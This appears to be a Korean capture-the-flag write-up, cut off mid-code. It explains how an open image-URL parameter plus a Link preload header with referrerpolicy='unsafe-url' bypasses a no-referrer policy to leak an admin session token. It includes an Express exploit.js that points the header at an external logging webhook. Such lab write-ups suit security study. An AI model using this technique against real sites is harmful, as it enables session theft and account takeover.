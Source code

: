
1. Leak admin credential

서버에서 사용자 이미지를 처리하는 JavaScript 코드가 다음과 같이 작성되어 있습니다.

```html
<script>
    let DEFAUL_IMG_URL;
    {% if user.image_url %}
    DEFAUL_IMG_URL = "{{ user.image_url }}";
    {% else %}
    DEFAUL_IMG_URL = "/static/image/spiderman.jpg";
    {% endif %}
</script>
<script src="/static/js/profile.js"></script>
```

위 코드에서 `user.image_url`이 설정된 경우 이를 기본 이미지 URL로 사용합니다.

다음 JavaScript 코드에서 이미지 소스를 결정합니다.
```js
// profile.js
const imageDisplay = document.getElementById('imageDisplay');
const urlSearch = new URLSearchParams(location.search);
const imgPath = urlSearch.get('imageDisplay') ?? DEFAUL_IMG_URL;
const imgSrc = new URL(imgPath, location.origin);
imageDisplay.src = imgSrc;
```

`imgSrc`를 `new URL(imgPath, location.origin)`으로 가져옵니다.
위 로직에서는 imgPath 파라미터를 `//example.com` 형태로 조작하여 외부의 임의 이미지를 로딩할 수 있습니다.
이 과정에서 admin의 세션 값이 URL 파라미터 ?session={} 형태로 존재하여 이를 유출시킬 수 있습니다.

서버는 아래와 같이 Referrer-Policy를 설정해 기본적으로 유출을 방지하고 있습니다.

```py
response.headers['Referrer-Policy'] = 'no-referrer'
```

app.py를 보면 Referrer-Policy가 no-referrer로 설정되어 있기 때문에 우회가 필요합니다.

하지만 최근, slonser가 X(Twitter)에 잘 알려지지 않은 우회 방법을 공개하였습니다.
- https://x.com/slonser_/status/1919439377295413485

[mdn - Link](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Link)

```
Link: <uri-reference>; param1=value1; param2="value2"
```

```
Link: <WEBHOOK>; rel="preload"; as="image"; referrerpolicy="unsafe-url"
```

exploit.js
```js
const express = require('express');
const path = require('path');

const app = express();
const PORT = 3000;

app.get('/', (req, res) => {
    res.setHeader(
        'Link',
        '<https://wuicxxs.request.dreamhack.games/log>; rel="preload"; as="image"; referrerpolicy="unsafe-url"'
    );
    res.setHeader(
        'Cross-Origin-Resource-Policy',
        'cross-origin'
    );
```